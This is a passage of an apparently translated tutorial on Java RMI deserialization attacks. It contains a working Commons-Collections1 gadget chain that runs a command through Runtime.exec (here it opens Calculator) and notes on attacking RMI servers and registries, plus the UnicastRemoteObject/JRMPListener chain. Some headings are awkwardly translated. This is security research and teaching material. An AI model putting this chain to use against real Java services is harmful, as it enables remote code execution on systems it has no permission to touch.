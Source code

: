 ```java
        // Commons-Collection1 chain
        Transformer[] transformer = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a /System/Applications/Calculator.app"})
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformer);
        Map hashMap = new HashMap();
        hashMap.put("value", "d1no");
        Map transformedMap = TransformedMap.decorate(hashMap, null, chainedTransformer);
        Class<?> h3rmesk1t = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = h3rmesk1t.getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Retention.class, transformedMap);

        return (Object) invocationHandler;
    }
}
```

### Remote loading object
When the object returned by a method on the server is not available to the client, the client can specify a `URL`, and the object will be instantiated through the `URL`. [Reference Article](https://paper.seebug.org/1091/#serverrmi-server)

## Attack the server
Refer to the attack method of attacking clients above.

## Bring echo attack
A retouch attack refers to when attacking the registry center. When an exception is encountered, the registry center will directly send the exception back and return it to the client. Previously, when attacking the registry center, you can attack the registry through `bind`, `lookup`, `unbind`, `rebind`, etc. When trying to attack, the command is indeed executed, but the errors in the registry center will also be passed to the client.

[Reference article](https://xz.aliyun.com/t/2223)

# Deserialize Gadgets
## UnicastRemoteObject
The deserialization call chain is:

```java
UnicastRemoteObject.readObject()
    UnicastRemoteObject.reexport()
        UnicastRemoteObject.exportObject()
            UnicastServerRef.exportObject()
                LiveRef.exportObject()
                    TCPEndpoint.exportObject()
                        TCPTransport.exportObject()
                            TCPTransport.listen()
```
The corresponding part of the above is the `gadget` of `ysoserial.payloads.JRMPListener`, which can be used in combination with `ysoserial.exploit.JRMPListener`.

